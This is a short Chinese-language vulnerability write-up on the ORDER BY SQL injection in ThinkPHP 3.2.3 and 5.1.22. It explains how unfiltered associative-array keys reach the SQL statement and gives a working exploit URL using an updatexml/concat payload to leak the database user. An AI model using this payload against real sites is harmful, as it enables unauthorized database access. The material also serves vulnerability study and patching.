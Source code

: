 ```yaml
---
title: Thinkphp 3.x order by 注入漏洞
id: zhfly3143
---
```


# Thinkphp 3.x order by 注入漏洞

## 一、漏洞简介

ThinkPHP在处理order by排序时，当排序参数可控且为关联数组(key-value)时，由于框架未对数组中key值作安全过滤处理，攻击者可利用key构造SQL语句进行注入，该漏洞影响ThinkPHP 3.2.3、5.1.22及以下版本。

## 二、漏洞影响

ThinkPHP 3.2.3、5.1.22及以下版本。

## 三、复现过程

ThinkPHP3.2.3漏洞代码（/Library/Think/Db/Driver.class.php）：

![image](../img/0f963c85c244bf968992a6f28f4a9665.png)

ThinkPHP 5.1.22漏洞代码（framework/library/think/db/Query.php）：

![image](../img/22e42b8ada46f7c7e7fd73872d7c2e6f.png)

从上面漏洞代码可以看出，当$field参数为关联数组（key-value）时，key值拼接到返回值中，SQL语句最终绕过了框架安全过滤得以执行。

### ThinkPHP 3.2.3

访问如下URL即可进行漏洞利用：

```
http://www.0-sec.org/ThinkPHP/?order[updatexml(1,concat(0x3a,user()),1)]=1 
```

![image](../img/d65d22e2a50b2b94213ea4e8160d769b.png)

## 参考链接

> https://mp.weixin.qq.com/s?__biz=MzIwNTcxNTczMQ==&mid=2247483907&idx=1&sn=3c1f9874878c92d10cff30c1c263fa8a&scene=21#wechat_redirect